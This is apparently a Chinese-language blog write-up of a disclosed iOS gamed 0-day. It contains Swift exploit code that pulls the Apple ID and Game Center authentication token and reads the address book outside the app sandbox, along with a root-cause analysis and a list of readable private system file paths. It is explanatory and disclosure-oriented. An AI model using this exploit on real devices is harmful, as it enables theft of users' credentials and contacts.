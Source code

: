 运行示例：


![iOS-exploit-02.png](https://p6-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/40053cf25c51424b8d15207f4b8f8113~tplv-k3u1fbpfcp-watermark.image?)

这里只展示了获取 Apple ID 数据的截图，此漏洞还可以获取全部的通讯录，所有的联系人名字和电话号码，你的人脉关系链瞬间就这样给别人获取，所以，这个漏洞的危害性还是很大。


**漏洞代码**

漏洞攻击示例源代码：[GitHub](https://github.com/illusionofchaos/ios-gamed-0day)

```swift
let connection = NSXPCConnection(machServiceName: "com.apple.gamed", options: NSXPCConnection.Options.privileged)!
let proxy = connection.remoteObjectProxyWithErrorHandler({ _ in }) as! GKDaemonProtocol
let pid = ProcessInfo.processInfo.processIdentifier
proxy.getServicesForPID(pid, localPlayer: nil, reply: { (accountService, _, _, _, _, _, _, _, utilityService, _, _, _, _) in
	accountService.authenticatePlayerWithExistingCredentials(handler: { response, error in
		let appleID = response.credential.accountName
		let token = response.credential.authenticationToken
	}

	utilityService.requestImageData(for: URL(fileURLWithPath: "/var/mobile/Library/AddressBook/AddressBook.sqlitedb"), subdirectory: nil, fileName: nil, handler: { data in
		let addressBookData = data
	}
}
```


**漏洞分析**

漏洞的根本原因是因为 XPC 服务 `com.apple.gamed` 未正确检查 app 是否有 `com.apple.developer.game-center` 权限导致。

1、即使在用户设备上禁用了 Game Center，调用 `getServicesForPID:localPlayer:reply:` 方法也会返回几个 XPC 代理对象（`GKAccountService`、`GKFriendService`、`GKUtilityService` 等）。

2、如果在用户设备上启用了 Game Center（即使它没有在苹果后台 App Store Connect 中为 app 启用此权限，并且 app 中不包含 `com.apple.developer.game-center` 授权）。

* 在 `GKAccountService` 上调用`authenticatePlayerWithExistingCredentialsWithHandler:` 会返回一个包含 Apple ID 的对象用户、DSID 和 Game Center 身份验证令牌（允许代表用户向 https://gc.apple.com 发送请求）。
* 在 `GKProfileService` 上调用 `getProfilesForPlayerIDs:handler:` 会返回一个包含用户 Apple ID 名字和姓氏的对象。
* 在 `GKFriendService` 上调用 `getFriendsForPlayer:handler:` 返回一个对象，其中包含有关用户在 Game Center 中的朋友的信息。

3、即使设备上 Game Center 被禁用，也没有在苹果后台为 App Store Connect 中的 app 启用此权限，并且 app 不包含 `com.apple.developer.game-center` 授权。调用 `GKUtilityService` 的 `requestImageDataForURL:subdirectory:fileName:handler:` 允许在应用程序沙箱之外，读取任意文件通过将文件 URL 传递给该方法。可以通过这种方式访问的文件（但不限于）如下： 

* `/var/containers/Shared/SystemGroup/systemgroup.com.apple.mobilegestaltcache/Library/Caches/com.apple.MobileGestalt.plist`：包含设置中 “关于手机” 中的信息。越狱设备可以通过修改此文件，实现修改设备版本号、把日版美版等设备修改为国行等。
* `/var/mobile/Library/CoreDuet/People/interactionC.db`：包含来自邮件、短信、iMessage、第三方app 传递的联系人列表以及有关用户与这些联系人交互的元数据（包括时间戳和统计数据）
* `/var/mobile/Library/Preferences/com.apple.mobilephone.speeddial.plist`：包含个人收藏的联系人信息及其电话号码。
* `/var/mobile/Library/AddressBook/AddressBook.sqlitedb`：包含完整的通讯录信息。
* `/var/mobile/Library/AddressBook/AddressBookImages.sqlitedb`：包含通讯录联系人的头像。

